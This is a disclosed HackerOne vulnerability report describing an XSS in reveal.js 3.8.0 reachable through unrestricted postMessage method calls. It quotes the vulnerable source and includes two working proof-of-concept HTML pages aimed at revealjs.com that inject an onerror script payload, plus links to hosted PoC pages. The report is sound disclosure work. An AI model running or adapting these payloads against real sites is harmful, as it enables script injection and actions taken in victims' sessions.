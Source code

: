 # [reveal.js] XSS by calling arbitrary method via postMessage

## Report Details
- **Report ID**: 691977
- **URL**: https://hackerone.com/reports/691977
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-10T18:29:45.135Z
- **Disclosed**: 2020-02-18T13:55:42.321Z

## Reporter
- **Username**: s_p_q_r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report XSS in reveal.js
It allows gaining access to the victim's account and performing actions on his behalf

# Module

**module name:** reveal.js
**version:** 3.8.0
**npm page:** `https://www.npmjs.com/package/reveal.js`

## Module Description

> A framework for easily creating beautiful presentations using HTML. Check out the live demo.
> 
> reveal.js comes with a broad range of features including nested slides, Markdown contents, PDF export, speaker notes and a JavaScript API. There's also a fully featured visual editor and platform for sharing reveal.js presentations at slides.com.

## Module Stats

[N/A] downloads in the last day
[4666] downloads in the last week
[N/A] downloads in the last month

# Vulnerability

## Vulnerability Description

The `setupPostMessage` function accepts messages from arbitrary origins and allows calling any method available in Reveal:

```javascript
function setupPostMessage() {
	
	if( config.postMessage ) {
		window.addEventListener( 'message', function ( event ) {
			var data = event.data;
			
			// Make sure we're dealing with JSON
			if( typeof data === 'string' && data.charAt( 0 ) === '{' && data.charAt( data.length - 1 ) === '}' ) {
				data = JSON.parse( data );

				// Check if the requested method can be found
				if( data.method && typeof Reveal[data.method] === 'function' ) {
					Reveal[data.method].apply( Reveal, data.args );
				}
			}
		}, false );
	}
}
```

For the proof of concept let's consider the `addKeyBinding` method. It pushes the provided key data (code, description and callback) into the `registeredKeyBindings` array:

```javascript
function addKeyBinding( binding, callback ) {
	
	if( typeof binding === 'object' && binding.keyCode ) {
		registeredKeyBindings[binding.keyCode] = {
			callback: callback,
			key: binding.key,
			description: binding.description
		};
	}
	else {
		registeredKeyBindings[binding] = {
			callback: callback,
			key: null,
			description: null
		};
	}
	
}
```

which in its turn is put into HTML without sufficient validation within the `showHelp` method:

```javascript
function showHelp() {
	
	...
	
	for( var binding in registeredKeyBindings ) {
		if( registeredKeyBindings[binding].key && registeredKeyBindings[binding].description ) {
			html += '<tr><td>' + registeredKeyBindings[binding].key + '</td><td>' + registeredKeyBindings[binding].description + '</td></tr>';
		}
	}
	
	...
	
}
```

All in all this allows the attacker to perform XSS via postMessage by submitting payloads in its data (PoC against the https://revealjs.com homepage):

```html
<html>
    <head>
        <title>XSS</title>
        
		<style>
			iframe
			{
				width: 100%;
				height: 100%;
				border: none;
			}
		</style>
    </head>
    <body>
        <iframe name="reveal" src="https://revealjs.com" onload="xss()"></iframe>

        <script>
            var frame = window.frames.reveal
            
            function xss ()
            {
                frame.postMessage ('{"method":"addKeyBinding","args":[{"keyCode":666,"key":"Pwned","description":"<img src=x onerror=alert(document.domain)>"}]}', '*')
                frame.postMessage ('{"method":"toggleHelp"}', '*')
            }
        </script>
    </body>
</html>
```

http://spqr.zz.mu/reveal.php

```html
<script>
    var win = window.open ('https://revealjs.com')
    
    function xss ()
    {
        win.postMessage ('{"method":"addKeyBinding","args":[{"keyCode":666,"key":"Pwned","description":"<img src=x onerror=alert(document.domain)>"}]}', '*')
        win.postMessage ('{"method":"toggleHelp"}', '*')
    }
    
    setTimeout (xss, 500)
</script>
```

http://spqr.zz.mu/reveal_open.php


## Steps To Reproduce:

Open one of these links in any browser and wait for the page to load:

* http://spqr.zz.mu/reveal.php
* http://spqr.zz.mu/reveal_open.php

{F579591}

## Patch

* Use secure HTML assignment at the `showHelp` method
* Check other available methods for similar vulnerabilites
* By default allow calling secure methods only
* By default turn on secure configs only
* Prohibit overriding them via seach params
* By default allow messages from whitelisted origins only

## Supporting Material/References:

- Any
- 4.0.0 or later
- Any
- Any
- Any

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

# Hunter's comments and funny memes goes here

[Presentation with reveal.js about xss](https://github.com/fabidick22/presentation-xss)

{F579592}

## Impact

Gaining access to the victim's account and performing actions on his behalf

## Attachments
- xss_dawg.jpg
